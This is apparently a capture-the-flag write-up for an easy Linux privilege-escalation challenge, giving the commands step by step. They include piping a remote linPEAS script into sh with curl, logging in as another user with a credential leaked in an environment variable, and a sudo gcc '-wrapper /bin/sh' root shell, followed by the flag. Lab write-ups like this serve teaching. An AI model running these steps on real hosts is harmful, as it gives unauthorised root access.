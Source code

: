 # CTF Writeup:  Town Pulse

## Challenge Overview
* **Category:** OS Exploitation
* **Difficulty:** ["Easy"]
* **Description:** We have access to a linux box, need to find vulnerabile configuration to escalate privileges and find flag. 


## Tools Used

- [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [GTFOBins](https://gtfobins.github.io/)
- bash

---

## Solution

Usual disclaimer here: the following solution was the one that worked and there was some trial and error to find it. Omitting those dead-ends for brevity.  

### Step 1: Initial Access

```bash
ssh Pentester@<ip>

# no response
```

```bash
nmap -sV <ip>

#shows diff port
```

```bash
ssh -p 2222 Pentester@<ip>
```


Challenge requires privilege escalation so let's go script kiddie and fetch a tool to search for privilege escalations ("privesc" as it's call in "the biz"):

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

```

Under Environment we see `JOAN_TEMPORARY_CREDS=jojocreds1`

Well well well. For reasons mysterious there are temp creds for another user in our environment of our account. Let's try sshing into their account and see what permissions they have. Fingers crossed they're in sudoers and we can use their privilege to escalate ours **sinister laughing**. 

What's our target account though? 

```bash
ls /home/
# shows JOan 
```
Its probably the joan account. 

```bash

ssh joan@localhost
# no response
```

---

### Step 2: Priv Esc

Now we have access to joan's account, see what groups she's in

```bash
groups
Joan sudo
```

Cool, now let's add our pentester account to sudoers

```bash
sudo usermod -aG sudo Pentester
Sorry, user Joan is not allowed to execute '/usr/sbin/usermod -aG sudo Pentester' as root on dad5f987a15f."
```

Nope. Gah! Rubbing my brow here as I was heading for a PB for unfinished challenges in this event. Thankfully team-work makes the dream work and I looked to the east for a teammate wizard saviour:

![image](./gandalf-white.gif)

Lol, thanks wizard teammate 🧙 10 seconds, one command, and a URL later: 

```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

https://gtfobins.github.io/gtfobins/gcc#sudo

Doopdeedoop, let's try that command

```bash
gcc -wrapper /bin/sh,-s .
sudo usermod -aG sudo Pentester
exit
exit
# to log out the pentester and apply the new group, then ssh back in.
```

```bash
ssh -p 2222 Pentester@<ip>
```

```bash
groups
Pentester sudo
```

Huzzah. Now what commands can we run as sudo?
```bash
sudo -l
(ALL) NOPASSWD: /usr/bin/gcc
```

Run that GTFOBin again. 

And Bam! we're root.  

---

### Step 3: Flag Retrieval

Now we are gods, the flag's gotta be here somewhere, normally I use `find` (looking for flag.txt) or `grep` (looking for string FLAG within a file) on the entire file system. Trying find first

```bash
find / -name flag.txt -type f
/root/flag.txt
```

Looks promising. 

```bash
cat /root/flag.txt
FLAG{7H15_SUDO_C00K3D_R007}
```

![image](./victory.gif)


---

## Notes

- Don't be afraid to ask for help when you get blocked. Difficult for you can be easy for someone else and vice versa. 
- As a team, set up some tools in comms (like threads in channels) to share progress on challenges.
- Linpeas and gftobins are l337h4x0r was to privesc on linux. 🫶

---


